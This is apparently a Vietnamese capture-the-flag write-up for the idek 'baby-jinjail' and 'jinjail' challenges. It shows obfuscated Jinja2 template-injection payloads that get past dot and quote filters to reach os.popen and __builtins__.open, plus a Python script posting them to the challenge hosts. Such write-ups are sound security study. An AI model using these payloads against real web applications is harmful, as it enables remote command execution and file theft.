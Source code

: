 ### IDEA
+ mình sử dụng payload đơn gian này: `{% raw %}{{cycler.__init__.__globals__.os.popen('id').read()}}{% endraw %}`
+ Bypass `.` = `|attr()`
+ Bypass `" '` = `dict()|join`

### Payload
Payload đầu tiên của mình thử như sau:
{% highlight text %}
{% raw %}
{{((cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(o=m,s=n)|join]|attr(dict(po=s,pen=y)|join))(dict(l=ii,s=dd)|join)|attr(dict(re=re,ad=ad)|join)()}}
{% endraw %}
{% endhighlight text %}
+ Để nhìn rõ hơn về payload này thì mình sẽ viết ra chuỗi trên nó sẽ tạo ra như sau: 
{% highlight text %}
{% raw %}
{{cycler.__init__.__globals__.os.popen(ls).read()}}
{% endraw %}
{% endhighlight %}
+ Payload này có thể rce nhưng mình không tìm đc cách đọc được flag, vì cần đọc được flag thì cần `cat flag` hoặc `... flag` (... ở đây có nghĩa là 1 lệnh nào đó), nhưng điểm chung của mấy command này là đều cần có khoảng trắng, nhưng mình không nghĩ ra cách đoạn này. Nếu dùng các kí tự để bypass khoảng trắng thì server sẽ trả về 500.

Payload thứ hai:
{% highlight text %}
{% raw %}
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
{% endraw %}
{% endhighlight %}
+ Payload trên sẽ kiểu: 
{% highlight text %}
{% raw %}
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
{% endraw %}
{% endhighlight %}
+ Payload này là sư phụ mình đã nhìn thấy trong `__builtins__` có attribute `open` => đọc thẳng `flag` luôn.

Result:

![image](https://user-images.githubusercontent.com/54855855/146140899-65389e88-50dc-482e-848e-a6568e9a6463.png)

Bài `jinjail` thì source vẫn tương tự nhưng chỉ check length của input của chúng ta nhập vào > 256 thì sẽ trả về false. Nhưng payload của mình ở trên < 256 => dùng 1 payload cho 2 bài.

Script:
{% highlight python%}
{% raw%}
# payload.py
import requests

url1 = 'http://baby-jinjail.chal.idek.team/'
url2 = 'http://jinjail.chal.idek.team/'

data = {"q":"{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}"}
print("Flag baby-jinjail: ",requests.post(url1,data=data).text)
print("Flag jinjail: ",requests.post(url2,data=data).text)
{% endraw %}
{% endhighlight %}
